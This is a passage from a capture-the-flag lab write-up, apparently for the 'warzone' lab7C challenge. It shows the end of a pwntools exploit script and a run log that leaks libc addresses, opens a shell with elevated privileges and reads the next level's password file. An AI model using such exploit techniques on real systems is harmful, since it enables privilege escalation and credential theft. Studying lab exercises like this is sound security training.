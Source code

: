     r = remote(sys.argv[1], int(sys.argv[2]))
    exploit(r)
  else:
    r = process(['/levels/lab07/lab7C'])
    print util.proc.pidof(r)
    pause()
    exploit(r)
{% endhighlight %}

{% highlight bash %}
lab7C@warzone:/tmp/lab7C$ python solve.py 
[*] For remote: solve.py HOST PORT
[+] Starting program '/levels/lab07/lab7C': Done
[5648]
[*] Paused (press any to continue)
[*] Leaking addresses...
[+] Small_str() @ 0xb7755bc7
[+] System() @ 0xb75b8190
[+] Enjoy your shell...
[*] Switching to interactive mode
$ id
uid=1026(lab7C) gid=1027(lab7C) euid=1027(lab7A) groups=1028(lab7A),1001(gameuser),1027(lab7C)
$ cat /home/lab7A/.pass
us3_4ft3r_fr33s_4re_s1ck
$  
{% endhighlight %}

